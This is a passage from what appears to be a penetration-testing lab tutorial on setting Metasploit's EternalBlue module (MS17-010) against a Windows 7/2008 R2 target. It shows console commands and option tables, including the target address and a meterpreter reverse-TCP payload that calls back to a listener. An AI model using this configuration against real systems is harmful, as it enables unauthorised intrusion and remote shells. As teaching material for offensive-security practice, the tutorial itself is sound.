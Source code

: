```
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some required parameter values will be pre-populated, make sure you check if these should remain the same for your target. For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.

In this example, we will set the RHOSTS parameter to the IP address of our target system using the `set` command.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
